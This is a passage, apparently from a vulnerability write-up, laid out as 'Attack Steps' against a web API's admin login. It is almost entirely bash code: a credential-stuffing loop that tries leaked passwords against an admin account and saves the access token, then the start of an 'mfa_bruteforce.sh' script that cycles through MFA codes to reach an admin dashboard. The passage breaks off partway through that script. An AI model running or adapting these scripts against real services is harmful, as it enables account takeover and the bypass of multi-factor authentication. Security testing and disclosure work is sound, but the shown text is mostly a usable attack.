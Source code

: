 #### Attack Steps

**Step 1: Obtain Admin Credentials**
```bash
# Scenario A: Credential stuffing with leaked passwords
cat leaked_passwords.txt | while read PASSWORD; do
  RESPONSE=$(curl -s -X POST https://api.example.com/auth/login \
    -H "Content-Type: application/json" \
    -d "{\"email\":\"admin@example.com\",\"password\":\"$PASSWORD\"}")
  
  if [[ "$RESPONSE" == *"token"* ]]; then
    echo "Password found: $PASSWORD"
    echo "$RESPONSE" > admin_creds.json
    break
  fi
done

# Scenario B: Use previously compromised password
curl -X POST https://api.example.com/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email":"admin@example.com","password":"CompromisedPass123!"}' \
  -o auth_response.json

# Extract token from response
TOKEN=$(cat auth_response.json | jq -r '.accessToken')
echo "Extracted token: $TOKEN"
```

**Step 2: Automated MFA Brute Force Script**
```bash
#!/bin/bash
# mfa_bruteforce.sh - Comprehensive MFA bypass tool

TARGET_API="https://api.example.com"
ADMIN_TOKEN="eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiI5YzNhNGY..."
ENDPOINT="/api/admin/dashboard"
LOG_FILE="mfa_attempts.log"
SUCCESS_FILE="mfa_success.json"

# Function to test MFA code
test_mfa_code() {
  local code=$1
  local response=$(curl -s -w "\n%{http_code}" \
    -X GET "${TARGET_API}${ENDPOINT}" \
    -H "Authorization: Bearer ${ADMIN_TOKEN}" \
    -H "x-admin-mfa-code: ${code}" \
    -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36")
  
  local http_code=$(echo "$response" | tail -n1)
  local body=$(echo "$response" | head -n-1)
  
  echo "[$(date '+%Y-%m-%d %H:%M:%S')] Code: $code | Status: $http_code" >> "$LOG_FILE"
  
  # Success conditions
  if [[ $http_code -eq 200 ]] || [[ "$body" != *"Invalid MFA"* ]] && [[ "$body" != *"required"* ]]; then
    echo "[SUCCESS] MFA Code: $code"
    echo "Code: $code" > "$SUCCESS_FILE"
    echo "$body" >> "$SUCCESS_FILE"
    return 0
  fi
  
  return 1
}

```